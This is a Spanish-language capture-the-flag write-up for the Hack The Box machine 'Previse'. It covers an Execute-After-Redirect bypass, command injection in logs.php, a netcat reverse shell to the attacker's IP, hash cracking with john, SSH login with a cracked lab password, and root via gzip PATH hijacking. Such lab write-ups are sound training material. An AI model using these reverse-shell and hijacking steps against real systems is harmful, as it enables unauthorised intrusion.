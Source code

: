 ```yaml
---
title: Previse
published: true
categories: [Linux,Easy]
tags: [Web explotation, EAR, MySQL explotation, Path Hijacking]
author: Alejandro Rivera
image:
  path: https://user-images.githubusercontent.com/55555187/182441122-946b99b9-c0c0-45c6-91a7-c5d9dd9de9ae.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Previse es una <font color="#98E256">máquina Easy</font> de temática <font color="#D35400">Linux</font> en la que se toca EAR (Execute After Redirect) para crear un usuario válido en la web, OS Command Injection, lectura de credenciales válidas, explotación del servicio MySQL y Path Hijacking sobre el binario gzip.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.11.104
```

![2022-07-31-12-15-56-image](https://user-images.githubusercontent.com/55555187/182440309-876ebe38-848f-4615-baa6-18f502983e1b.png)

```bash
nmap -sVC -p22,80 -oN portSV 10.10.11.104
```

![2022-07-31-12-16-49-image](https://user-images.githubusercontent.com/55555187/182440302-f2c19ee1-f2c6-4687-b60b-bf2a9ea5b690.png)

Me meto en la web y observo que los recursos tienen extensión .php, inicio un fuzzing para intentar enumerar información.

```bash
wfuzz -c --hc=404 -t 200 -H "User-Agent: Mozilla/5.0 (Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0" -w /usr/share/secLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.104/FUZZ
```

![2022-07-31-12-23-39-image](https://user-images.githubusercontent.com/55555187/182440301-27f98e4c-c527-4d97-97a8-673f2833daca.png)

De los resultados del fuzzing puedo sacar una serie de conclusiones:

1. Hay un config.php accesible (pero al ser php se interpreta y no vemos nada) que tendrá seguramente credenciales

2. Se producen muchas redirecciones lo que me indica que se comprueba si el usuario que hace la request es válido o no

Para terminar la enumeración inicial que siempre hago, intento buscar subdominios en la web Pero no encuentro ninguno.

```bash
wfuzz -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.104' -H "Host: FUZZ.10.10.11.104/" -H "User-Agent: Mozilla/5.0 (Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
```

Compruebo si *login.php* es vulnerable a SQLi pero no lo es. 

Revisando los recursos que me han dado 200 ok encuentro que en nav.php tengo acceso hacia los recursos que dan 302 aunque me siguen redirigiendo al login.

![2022-07-31-12-37-26-image](https://user-images.githubusercontent.com/55555187/182440299-2eca191a-d9f3-4694-a22f-98a10ac956f0.png)

Revisando las peticiones en el burp logro ver el panel de administración para la creación de usuarios:

![2022-07-31-12-52-20-image](https://user-images.githubusercontent.com/55555187/182440297-a73a88c0-16b0-44f3-b03f-909775492b49.png)

Lo que me hace pensar que aunque luego me redirija al login, puedo enviar una petición y crearme un usuario.

Cambio el método a POST y creo un usuario aportando los argumentos necesarios viendo los ids del formulario en la petición GET, lanzo la petición, me logueo como el usuario que acabo de crear y estoy dentro:

![2022-07-31-12-57-48-image](https://user-images.githubusercontent.com/55555187/182440290-9cfa041a-05d9-42a1-b879-870fc7d25394.png)

Una vez que tengo un usuario válido ya puedo ver las páginas que antes daban 302.

En *files.php* hay un zip con un backup del sitio por lo que me lo descargo y reviso su contenido.

![2022-07-31-12-58-40-image](https://user-images.githubusercontent.com/55555187/182440289-8b27d998-1445-4ac4-ba5f-42b2013192ff.png)

En el backup puedo ver el contenido de *config.php* obteniendo credenciales:

![2022-07-31-13-00-02-image](https://user-images.githubusercontent.com/55555187/182440287-3d938954-a67f-40bc-8d07-48e89b80f77b.png)

Como está SSH abierto pruebo por si hubiese reutilización de credenciales pero no es el caso.

En *file.php* también puedo subir ficheros lo que podría dar lugar a una *subida insegura de ficheros*.

Compruebo que puedo subir archivos php pero no hay un enlace para ver el contenido del fichero, solo para descargarlo por lo que no podría aprovecharme de esto.

Revisando los archivos de backup veo que en *logs.php* se está ejecutando **exec** y que se le pasa el **parámetro delim** sin sanitizar lo que pueda dar lugar a **RCE**.

![2022-07-31-13-28-52-image](https://user-images.githubusercontent.com/55555187/182440283-8af1140e-363f-4ed5-b4ca-9566b5076c1a.png)

Intento ver si puedo obtener por pantalla el output de algún comando para confirmar el RCE pero no obtengo nada.

Pruebo a hacer una comprobación levantando un servidor HTTP y realizando una petición contra él, obteniendo una respuesta y confirmando el RCE:

![2022-07-31-13-46-24-image](https://user-images.githubusercontent.com/55555187/182440280-6d682613-8507-412c-ab05-3f54c507d9fa.png)

Me entablo una reverse shell:

```bash
nc -e /bin/bash 10.10.14.3 443
```

![2022-07-31-13-46-36-image](https://user-images.githubusercontent.com/55555187/182440279-05503994-0c33-4b33-8a42-85837fcac550.png)

Hago un tratamiento de la TTY

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset
xterm
export SHELL=bash
export TERM=xterm
```

## Escalada de privilegios

Una vez dentro hago un reconocimiento básico:

1. Existe el usuario m4lwhere en el sistema

2. Tenemos también una contraseña de *MySQL* del archivo *config.php*

3. No podemos ejecutar sudo en ningún contexto

4. En */opt/scripts* hay un archivo de root que al parecer se ejecuta en una tarea cron: 

![2022-07-31-18-21-21-image](https://user-images.githubusercontent.com/55555187/182440276-49c9bada-5020-4454-ab52-9c99967ee47f.png)

Teniendo credenciales para *MySQL*, trato de conectarme al servicio:

![2022-07-31-18-29-34-image](https://user-images.githubusercontent.com/55555187/182440274-2f0d460c-fbfe-4425-b376-6072861d5239.png)

Accedo al contenido de la base de datos *previse* y obtengo el hash de la contraseña del usuario *m4lwhere*:

![2022-07-31-18-30-31-image](https://user-images.githubusercontent.com/55555187/182440271-53674d02-a24f-46f2-aebe-7ea7beac0357.png)

Revisando *accounts.php* podemos ver como se ha creado este hash:

![2022-07-31-18-33-47-image](https://user-images.githubusercontent.com/55555187/182440269-412150c1-4ee2-4d35-9cf0-b531ba334320.png)

También buscando en internet podemos ver que <span>*$*</span>*1$* hace referencia a  *MD5*.

Listando los formatos de *john *podemos ver que existe el formato md5crypt que se ajusta a lo que hemos observado:

![2022-07-31-18-58-21-image](https://user-images.githubusercontent.com/55555187/182440266-37addc94-1e55-4961-b8a3-de4f975da23f.png)

```bash
john -format=md5crypt -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![2022-07-31-19-07-43-image](https://user-images.githubusercontent.com/55555187/182440265-0a9268f3-396f-4a10-9e27-cbd2574e14e8.png)

Compruebo que la contraseña obtenida pertenezca a *m4lwhere*:

![2022-07-31-19-08-15-image](https://user-images.githubusercontent.com/55555187/182440262-be1a2bff-8b05-4466-8ecf-7187850f1bdd.png)

Aprovechando que el servicio *SSH* está abierto en la máquina, me logueo como m4lwhere a través de él.

```bash
sshpass -p 'ilovecody112235' ssh m4lwhere@10.10.11.104
```

![2022-07-31-19-11-36-image](https://user-images.githubusercontent.com/55555187/182440260-c75fc6af-e70e-443a-ab06-a0250bfc8a93.png)

Una vez dentro, busco archivos pertenecientes al grupo *m4lwhere* y encuentro uno que me llama la atención:

![2022-07-31-19-15-49-image](https://user-images.githubusercontent.com/55555187/182440259-95e4a25c-eb0b-4f04-bf3a-92584921288d.png)

Pero tras revisarlo no encuentro nada útil.

Compruebo si el usuario puede ejecutar comandos como Sudo en algún contexto y descubro que puede ejecutar el archivo .sh que tenía root en /opt/scripts:

![2022-07-31-19-37-31-image](https://user-images.githubusercontent.com/55555187/182440256-363afcbd-4813-4e05-9307-61dd62176650.png)

Revisando el contenido del archivo lo primero que me llama la atención es que se esté usando *gzip* sin establecer un path absoluto lo que puede dar lugar a *path hijacking*:

![2022-07-31-19-48-51-image](https://user-images.githubusercontent.com/55555187/182440247-f059c561-4aaf-4ac4-96df-9f26b589e303.png)

Para aprovechar esta vulnerabilidad:

1. Modifico la variable de entorno PATH de tal forma que el sistema operativo busque primero en */tmp*
   
   ```bash
   export PATH=/tmp:$PATH
   ```

2. Creo un archivo *gzip* en */tmp* y le doy permisos de ejecución con *chmod +x*

3. Compruebo que la vulnerabilidad está presente haciendo que el archivo *gzip* ejecute un *curl* contra un servidor HTTP que he levantado usando Python
   
   ![2022-07-31-19-48-33-image](https://user-images.githubusercontent.com/55555187/182440250-1cb1054a-e04d-43ed-a79c-68b1f74152d3.png)

4. Una vez que compruebo que la vulnerabilidad existe, cambio el payload y lanzo una reverse shell contra mi máquina la cual me dará una sesión como root al estar lanzandose el script con permisos de Sudo
   
   ![2022-07-31-19-51-18-image](https://user-images.githubusercontent.com/55555187/182440243-8a72ff61-49e5-4677-bff3-2d918f06478d.png)
